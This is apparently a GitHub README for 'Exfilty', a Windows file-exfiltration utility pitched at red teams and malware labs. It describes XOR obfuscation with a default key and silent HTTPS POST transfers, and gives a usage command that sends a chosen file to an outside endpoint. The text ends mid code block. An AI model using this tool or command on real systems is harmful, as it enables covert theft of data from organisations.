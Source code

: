 # Exfilty

**Exfilty** is a lightweight file exfiltration utility for Windows environments, designed for use in controlled environments such as red team operations, malware analysis labs, and post-exploitation research.

The tool performs HTTPS POST-based file transfer to a specified endpoint, applying a simple XOR cipher to obfuscate the file contents in transit.

---

## Features

- Minimal and portable Windows executable
- XOR-based payload encoding (configurable key)
- HTTPS POST with custom User-Agent
- Designed for silent file transfers in restricted environments
- Output fully reconstructable via provided Python script

---

## Usage
```bash
exfilty.exe https://your_endpoint> <file_to_exfiltrate>  # BurpSuite Collaborator recommended
```

The tool will read the file, apply XOR encryption using a predefined key, and send the result via HTTPS POST to the specified endpoint.

---

## Encryption Logic

Exfilty uses a symmetric XOR cipher with a static key (`secreta123` by default). This key must match on both ends of communication (sender and receiver).

You can reconstruct the original file using the provided `remounter.py` script:

```bash
python3 remounter.py <encrypted_file> <output_file>
